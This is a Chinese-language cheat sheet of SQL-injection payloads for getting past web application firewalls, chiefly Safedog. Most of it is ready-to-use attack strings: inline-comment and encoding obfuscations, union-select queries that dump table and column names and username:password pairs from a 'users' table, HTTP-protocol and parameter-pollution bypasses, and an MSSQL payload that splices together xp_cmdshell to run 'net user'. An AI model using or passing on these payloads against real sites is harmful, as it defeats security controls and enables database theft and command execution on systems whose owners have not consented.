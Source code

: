 最新版\
1、安全狗and的绕过（防止and和or的注入）\
将and修改为/*!12345and*/ ps:12345是任意的5位数字\
通过bp进行拦截，发送到intruder模块，进行爆破找特征值 返回结果正常即是可以被正常绕过\
4-6位都可以

2、安全狗order by的绕过\
order by一起出现会引发安全狗警告，要在order by之间添加一些字符\
order /*//%$*/ by 1 -- 1\

3、安全狗select　union的绕过（防止联合查询）\
select和union在一起的时候会触发\
跟order by原理相同，不过需要我们用bp进行fuzz\
?id=-2' union /*/$%^*/ select 1,2,3 -- 1\

4、查询数据的绕过\
database()的绕过：\
database和()放在一起的时候会触发waf\
在两者之间添加干扰符即可\
?id=-2' union /*/$%^*/ select 1,database/*////*/(),3 -- 1\
查询表的绕过：\
第一个绕过点：\
information_schema.tables\
waf会对tables进行拦截，想绕过需改成information_schema./*!tables*/\
第二个绕过点：\
from和information_schema./*!tables*/当这两个放在一起的时候会触发waf，这个时候要对from和information.schema./*!tables*/之间进行处理了\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ -- 1
绕过过程：首先在union和select之间放干扰符号，然后在from和information_schema之间放 --+以及正确的干扰符，然后通过%0a进行换行，最后对talbe进行内联\
但是还要通过where去指定对应的数据库\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ where table_name='security' -- 1\
但是information_schema和where出现在一起需要在中间添加干扰符\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ /*////*/\
where table_schema='security' -- 1  进行fuzz测试\
获取security对应表下的所有列名：\
?id=-2' union /*/$%^*/ select 1,group_concat(column_name),3 from --+/*%/ %0a\
information_schema./*!columns*/ /*////*/\
where table_schema='security' /*!12441and*/ table_name='users' -- 1\
查询数据的绕过：\
?id=-2' union /*/$%^*/ select 1,group_concat(username,0x3a,password),3 from /*////*/ users -- +\

---

方法                                                                 payload
编码                                      1、进行url编码（少数waf不会进行URL解码,部分waf进行一次url解码==>可对payload进行二次url编码）
                                          2、Unicode编码：单引号 = %u0027、%u02b9、%u02bc
                                          3、部分十六进制编码：adminuser = 0x61646D696E75736572
                                          4、SQL编码：unicode、HEX、URL、ascll、base64等
                                          5、XSS编码：HTML、URL、ASCII、JS编码、base64等
大小写变换                                 select=SELecT
关键字替换                                 And = &&
                                          Or = ||
                                          等于号 = like （或使用’<’ 和 ‘>’ 进行判断）
                                          if(a,b,c) = case when(A) then B else C end
                                          substr(str,1,1) = substr (str) from 1 for 1
                                          limit 1,1 = limit 1 offset 1
                                          Union select 1,2 = union select * from ((select 1)A join (select 2)B;
                                          hex()、bin() = ascii()
                                          sleep() = benchmark()
                                          concat_ws() = group_concat()
                                          mid()、substr() = substring()
                                          @@user = user()
                                          @@datadir = datadir()
特殊字符替换（空格或注释绕过）               sqlserver中：/**/、/*|%23--%23|*/ 
                                          mysql中：%0a、%0a/**/、//*!*//、#A%0a
特殊字符重写绕过                           selselectect
多请求拆分绕过                             ?a=[inputa]&b=[inputb]  ===》(参数拼接)  and a=[inputa] and b=[inputb]
参数放Cookie里面进行绕过                    $_REQUEST（获取参数，会获取GET POST COOKIE）===>  若未检测cookie，我们可以放cookie里面
使用白名单绕过                             admin dede install等目录特殊目录在白名单内
                                          URL/xxx.php?id=1 union select …… ===》
                                          1、URL/xxx.php/admin?id=1 union select……
                                          2、URL/admin/..\xxx.php?id=1 union select……
内联注释绕过                               id=1 and 1=1 ===》  id=1/*!and*/1=1
参数重写绕过                               URL/xx.php?id=1 union select  ===》
                                          URL/xx.php?id=1&id=union&id=select&id=……&id=
特殊字符拼接                               mssql中，函数里面可以用+来拼接 ?id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')       
云waf                                     ===》找真实IP
http协议绕过                              Content-Type绕过：application/x-www-form-urlencoded è multipart/form-data
                                         请求方式绕过：更换请求方法
                                         多Content-Disposition绕过：包含多个Content-Disposition时，中间件与waf取值不同 
                                         keep-alive（Pipeline）绕过：手动设置Connection:keep-alive（未断开），然后在http请求报文中构造多个请求，将恶意代码隐藏在第n个请求中，从而绕过waf
                                         修改编码方式：Charset=xxx进行绕过
 Waf检测限制绕过                          参数溢出
                                         缓冲区溢出：
                                         UnIoN SeLeCT ===》 and (select 1)=(Select 0xA*99999) UnIoN SeLeCT and 1=1 ===》 and 1=1 and 99…99999 //此处省略N多个9同网段/ssrf绕过                                       
------------------------------------------------------------------------------------------------------
1=1绕过
'and 1=1-- -被拦截
&符号可以绕
'%261-- -
'%26true-- -
'%260-- -
'%26false-- -
xor可以绕
'Xor 1-- -
'Xor true-- -

'or length(database()=4)-- -会被ban，这样绕：
'%26(length(database/**/())=4)-- -
'%26(ascii(@@version)=53)-- -
1'or -1=-1-- -
1'or -0=-0-- -

内联注释
1'or /*!1=1*/-- -
或者简单粗暴点的 或者简单粗暴点的 直接绕过and和or：
/*!11440OR*/
/*!11440AND*/



order by绕过
%23%0a绕过
order%23%0aby 3
内联注释加注释绕过
1'/*!order /*!/*/**/by*/4-- -
1'/*!order /*/*%/**/by*/4-- -
1'/*!order /*!/*/**//**/by*/4-- -
1'/*!order /*!/*/**//*/**/by*/4-- -
同样类似上面绕过and方法
/*!11440order*/



union select绕过
利用内联注释和注释的混淆绕过
1'/*!union/*!/*/**/*/select/**/1,2,'password'-- -
/*!11440union*/
/*!select/*!/*/**/*/


系统函数绕过
单独的括号和函数名都不会检测，分开函数名和括号：
version () #直接空格
user%0a() #这个地方%0a~%20有很多，类似绕过空格
database/**/() #注释符
user/*!*/() #内敛注释


函数名绕过
/*!extractvalue/*!/*/**/*/
/*!updatexml/*!/*/**/*/

联合注入绕过方式
这里使用mysql自带的正则函数(regexp)

select * from company_info where name like '桑尼';  //查询name等于桑尼的数据
select * from company_info where name regexp '桑尼'; //查询结果中name包含桑尼的数据

获取详细信息
尝试获取数据库名、版本，因database()被识别被拦截

-1' regexp "%0A%23" /*!11444union*/ %0A /*!11444select*/ 1,database(/*!11444*/),version(/*!11444*/) %23

注入出表名
-1' union /*!--+/*%0aselect/*!1,2,*/ group_concat(schema_name) /*!from*/

/*!--+/*%0ainformation_schema./*!schemata*/ --+
